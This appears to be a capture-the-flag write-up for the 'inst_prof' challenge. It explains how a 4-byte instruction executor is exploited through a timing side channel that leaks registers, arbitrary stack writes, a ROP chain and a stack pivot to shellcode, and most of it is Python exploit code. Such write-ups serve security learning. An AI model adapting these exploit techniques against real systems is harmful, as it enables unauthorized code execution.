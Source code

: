 # inst_prof

This challenge accepts 4 Bytes of Instructions and executes them in a tight loop, returning the runtime.
The do_test function is called in a while-true loop.
The Pseudocode looks as follows:

```c
void read_inst(void *page)
{
    read_n(page, 4);
}

void do_test()
{
    void *page = alloc_page()
    read_inst(page); //Insert 4 Bytes from User into a Template
    make_page_executable(page)

    r12 = rdtsc;
    ((void (*)())page)();
    rdx = rdtsc - r12;

    write(1, rdx, 8);
    free_page(page);
}
```

The disassembly of the Template:

```assembly
mv ecx, 0x1000
your_code:
<your 4 bytes>
sub ecx, 1
jne your_code
ret
```

## Leaking Stuff
First of all we noticed, that the registers r14 and r15 are not altered between two iterations.
This allows to preserve minimal state between two executions.
To leak registers, we stored the value to leak in r15 and extracted the value bit by bit.

```python
def leak_r15(lowest_bit=0, highest_bit=48):
    #skip not needed bits
    for n_bit in range(0, lowest_bit):
        execute("shr r15,1; ret")

    #leak
    leak = 0
    for n_bit in range(lowest_bit, highest_bit+1):
        #prepare bit mask
        execute("xor r14, r14")
        execute("inc r14; ret")
        execute("and r14, r15")

        #leak
        t = execute("sub r12, r14")
        if t > thres:
            leak |= 1 << n_bit

        #shfit r15
        execute("shr r15,1; ret")

    return leak
```

As r12 holds the start timestamp, the returned runtime can be artificialy increased depending on r14.
The time difference between 0 and 1 bits is roughly factor 2.
Even though, as we only use one attempt to read a bit (without averagig) to reduce the toal runtime, this attemp of leaking fails sometimes.


## Writing to Stack
To prepare a ropchain, we need to write arbitrary data to Stack.
The address we want to write to is stored in r15.
```python
def write_buff(what):
    for c in what:
        execute("movb [r15],0x%02x" % ord(c))
        execute("inc r15; ret")
```

## Exploit
The binary already contains lots of nice gadgets, such as alloc_page, read_n and make_page executable.
First we have to leak the address of the old Page and of course the binary base address for the ROP gadgets.

```python
execute("pop r15; push r15")
binary_base = leak_r15(lowest_bit=12,highest_bit=40) | 0x550000000000

execute("mov r15, rdi")
page_old = leak_r15(lowest_bit=12,highest_bit=48)
```

Then we prepare the rop chain.
We used the gadgets to allocate a new page, read arbitrary data and execute it.
rsi already contains 0x1000, the size of one page, what was usefull for alloc_page and read_n.
As the behavior for mmap is deterministic, we can compute the address of the newly allocated page from the previous allocated one.

```python
alloc_page = binary_base + 0x9f0
pop_rdi = binary_base + 0xbc3
read_n = binary_base + 0xa80
make_page_executable = binary_base + 0xa20
pop_rbx_r12_rbp = binary_base + 0xaab
call_rbx = binary_base + 0xb16

ropchain  = struct.pack("<Q", alloc_page)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", read_n)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", make_page_executable)
ropchain += struct.pack("<Q", pop_rbx_r12_rbp)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", call_rbx)
```

To write the ropchain without crashing the programm, we used rsp+0x1000 as a target and placed it in front of the mains stack frame.

```python
execute("mov %r15, %rsp; ret")
execute("inc %r15")
write_buff(ropchain)
```

Then we write the address of the ROP chain to rsp to trigger the execution.
```python
execute("mov r15, rsp; ret")
execute("inc r15")
CODE = asm("mov rsp,r15; ret").ljust(4, asm("nop"))
con.send(CODE)
con.send(shellcode)
con.send("cat flag.txt\n")
```

After some attempts, the Flag shows up:
```
CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}
```

# Files
- [Patched binary](patched_inst_prof)
- [Exploit](exploit.py)
